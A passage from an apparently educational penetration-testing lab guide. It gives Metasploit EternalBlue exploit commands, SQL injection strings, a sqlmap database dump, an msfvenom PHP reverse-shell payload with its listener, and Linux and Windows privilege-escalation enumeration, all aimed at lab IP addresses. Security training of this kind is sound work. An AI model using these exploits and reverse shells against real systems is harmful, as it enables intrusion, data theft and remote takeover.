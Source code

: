 2. **Basic Exploitation**
   ```bash
   # Search exploits
   search type:exploit platform:windows
   
   # Use exploit
   use exploit/windows/smb/ms17_010_eternalblue
   set RHOSTS 192.168.56.100
   exploit
   ```

### B. Web Exploitation

1. **SQL Injection**
   ```bash
   # Manual injection
   ' OR '1'='1
   ' UNION SELECT null,null,@@version--
   
   # Automated exploitation
   sqlmap -u "http://192.168.56.100/login.php" --forms --dump
   ```

2. **File Upload Vulnerabilities**
   ```bash
   # Generate payload
   msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.56.10 LPORT=4444 -f raw > shell.php
   
   # Setup listener
   use exploit/multi/handler
   set payload php/meterpreter/reverse_tcp
   ```

## Lab 4: Post Exploitation

### A. Privilege Escalation

1. **Linux PrivEsc**
   ```bash
   # Enumeration
   ./LinEnum.sh
   ./linux-exploit-suggester.sh
   
   # Common techniques
   sudo -l
   find / -perm -u=s -type f 2>/dev/null
   ```

2. **Windows PrivEsc**
   ```bash
   # PowerShell enumeration
   PowerUp.ps1
   Sherlock.ps1
   
   # Token impersonation
   incognito
   list_tokens -u
   ```
